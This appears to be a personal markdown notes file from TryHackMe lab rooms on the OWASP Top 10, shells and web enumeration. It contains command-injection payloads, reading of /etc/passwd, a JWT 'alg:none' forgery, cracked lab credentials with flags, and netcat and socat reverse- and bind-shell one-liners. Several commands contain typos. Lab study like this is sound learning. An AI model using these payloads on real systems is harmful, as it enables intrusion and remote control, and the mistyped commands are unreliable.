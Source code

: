 # Web Hacking Fundamentals

## OWASP Top 10 - 2021

1. IDOR Challenge
    a. Find the flag by changing url id: `http://10.10.111.64/note.php?note_id=0`
2. Cryptography Failures
    a. SQLite3
	i. 'PRAGMA table_info(customers)'
	ii. '.tables'
    b. Password Hash cracking
3. 

[crackstation](https://crackstation.net/)

**Cryptographic Failures: Database and Hash**

```
# SQLite3
>>> sqlite3 webapp.db
>>> .tables
sessions  users
>>> sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0

sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0

> admin pw: qwertyuiop
> THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
```

**Injections**

```
>>> ;ls
css
drpepper.txt
index.php
js
>>> ;whoami
apache
>>> ;ps -ef
root      0:00 {docker-entrypoi} /bin/sh /docker-entrypoint.sh
>>> ;cat /etc/alpine-release
>>> ;cat /etc/passwd | grep 'usr'
```

**Insecure Password Reset**

```
color: green
2JM0BPiu3yO5kx
>>> user: joseph; password: 2JM0BPiu3yO5kx
THM{Not_3ven_c4tz_c0uld_sav3_U!}
```

**Security Misconfiguration**

[OWASP - Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
```{python}
>>> import os; print(os.open("ls -l").read())
>>> import os; print(os.open("cat app.py").read())
THM{Just_a_tiny_misconfiguration}
```

**Outdated Components**

[exploit db](https://www.exploit-db.com/)


**Identification and Authentification Failures**

```
username: ' darren'
fe86079416a21a3c99937fea8874b667
username: ' arthur'
d9ac0f7db4fda460ac3edeb75d75e16e
```

[SRI Hash Generator](https://www.srihash.org/)

**Data Integrity Failures**

- Cookie: `header.payload.signature`
- We take the cookie from the guest login and modify the header so that:
    * changing `"alg":"HS256"` to `alg:"none"`
    * changing `"username":"guest"` to  `"username":"admin"`

```
--Example--
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ.C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw

>>> echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
>>> echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ" | base64 -d
>>> echo "C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw" | base64 -d

{"typ":"JWT","alg":"HS256"} 
{"username":"guest","exp":1665076836}
w>KE(%`Iya*H\juL`)


--Challenge--
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjgzNjAwMjc4fQ.HpAi26xMBAaYWpo5SQipEqHYq_M7r8fTjxw0zGO1P5Y

>>> echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9' | base64 -d
{"username":"guest","exp":1683600278}
>>> echo 'eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjgzNjAwMjc4fQ' | base64 -d
>>> echo '{"typ":"JWT","alg":"none"}' | base64
>>> echo '{"username":"admin","exp":1683600278}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K
eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjgzNjAwMjc4fQo=


eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjgzNjAwMjc4fQo=.

THM{Dont_take_cookies_from_strangers}
```

**Security Logging and Monitoring Failures**



## What the Shell 

[site](https://tryhackme.com/room/introtoshells)

- Tools to access shells:
    - netcat
    - socat
    - metasploit
    - msfvenom
- Difference between reverse shells and bind shells:
    * reverse shells: execute back to our computer
    * bind shells: execute code on target's computer
- How to make reverse shell attack:
    - We need to establish a connection between our computer and target
    - our computer: `sudo nc - lvpn 443`
    - target's computer: `nc <local-ip> <port> -e /bin/bash`
- How to make bind shell attacks: (we assume that there is already a connection)
    - our computer: `nc <machine_ip> <port>`
    - target's computer: `nc -lvpn -e "cmd.exe"`
- Stabilizing shell:
    - with Python: `python -c 'import pty;pty.spwan("/bin/bash")'`; 'stty'
    - using 'rlwrap': `rlwrap nc -lvpn <port>; ssty raw -echo; fg`
    - using 'socat': `sudo python3 -m http.server 80; wget <local-ip>/socat -O /tmp/socat`
- Socat:
    - `socat TCP-L:<port>`
    - Encrypted shells:
	- `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt; cat shell.key shell.crt > shell.pem; socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
	- `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

- Passing arguments:
    - pty:
    - stderr
    - sigint
    - setsid
    - sane
- `mkfifo`


[reverse shell cheat sheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[payloads ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```
>>> socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 EXEC:/bin/bash (erronous)
>>> socat OPENSSL:10.10.10.5:53,verify=0 


```

- msfvenom


## Web Enumeration

[site](https://tryhackme.com/room/webenumerationv2)

- Gobuster modes:
    - dir: enumerate website directories
    - dns: brute forcing subdomains
    - vhost: brute force virtual hosts
- 

**Gobuster**
```
>>> gobuster -u http://10.10.28.255 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-1.0.txt -t 64
images,Changes,VIDEO
>>> gobuster -u http://10.10.28.255/Changes -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-1.0.txt -x html,js,conf,txt
>>>  
```

**wpscan**


**nikto**


## Upload Vulnerabilities

- adding hosts: `sudo /etc/hosts`


```

```


